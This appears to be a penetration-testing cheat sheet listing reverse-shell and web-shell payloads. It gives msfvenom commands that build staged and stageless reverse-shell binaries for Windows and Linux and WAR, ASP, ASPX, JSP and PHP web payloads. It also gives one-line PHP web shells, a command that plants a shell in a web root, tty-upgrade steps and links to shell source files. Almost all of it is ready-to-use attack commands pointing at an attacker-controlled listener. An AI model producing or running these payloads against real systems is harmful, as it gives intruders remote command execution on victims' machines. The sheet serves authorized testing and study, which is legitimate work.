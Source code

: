 # Shell and Some Payloads
## Payload Structure - msfvenom
-> A staged payload is usually shipped in two parts. The first part contains a small primary payload that will establish a connection, transferring a larger secondary payload with the rest of the shellcode.  
e.g.  
```
windows/shell_reverse_tcp (stageless)
windows/shell/reverse_tcp (staged)
linux/shell_reverse_tcp (stageless)
linux/shell/reverse_tcp (staged)
```

## Non-Meterpreter Binaries
### Windows
#### .exe x86 staged - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

#### .exe x64 staged - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### .exe x86 stageless - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

#### .exe x64 stageless - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

### Linux
#### .elf x86 staged - msfvenom (Non-Meterpreter)
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

#### .elf x64 staged - msfvenom (Non-Meterpreter)

```
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

#### .elf x86 stageless - msfvenom (Non-Meterpreter)

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

#### .elf x64 stageless - msfvenom (Non-Meterpreter)
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Web Payloads
### Java WAR - msfvenom (Non-Meterpreter)
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### ASP - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

### ASPX - msfvenom (Non-Meterpreter)
```
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<LPORT> -f aspx > shell.aspx
```

### JSP - msfvenom (Non-Meterpreter)
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

### WAR - msfvenom (Non-Meterpreter)
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

### PHP - msfvenom (Non-Meterpreter) - Reverse Shell
```
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
or  
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php  
https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php

## Web Shells
### PHP 
```
<?php echo shell_exec($_GET['cmd']);?>
<?php system($_GET['cmd']);?>
<?php echo exec($_GET['cmd']);?>
```

### JSP
https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmdjsp.jsp  

or in kali
```
locate cmdjsp.jsp
```
### ASP
https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd-asp-5.1.asp  
https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.asp  

or in kali
```
locate cmd-asp-5.1.asp
locate cmdasp.asp
```

### ASPX
https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.aspx  

or in kali
```
locate cmdasp.aspx
```

### Webshell Infecting views.py - Python (Flask)


### PHP
```
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/cmd.php
```

### Perl
-> Find and edit
```
locate perl-reverse-shell.pl
```

## Upgrade to Interactive Shell tty
```
python3 -c 'import pty;pty.spawn("bash")'
export TERM=xterm && /usr/bin/script -qc /bin/bash /dev/null 
`ctrl + z`
stty raw -echo; fg 
```

### tools to make life easier
-> revshell generator  
https://www.revshells.com/

-> base64 encoder
https://www.base64encode.org/
use UTF-16LE Destination character set 

-> CyberChef  
https://gchq.github.io/CyberChef/

-> urlencoder  
https://www.urlencoder.org/



-> hex
http://www.unit-conversion.info/texttools/octal/

-> IP converter
https://www.silisoftware.com/tools/ipconverter.php
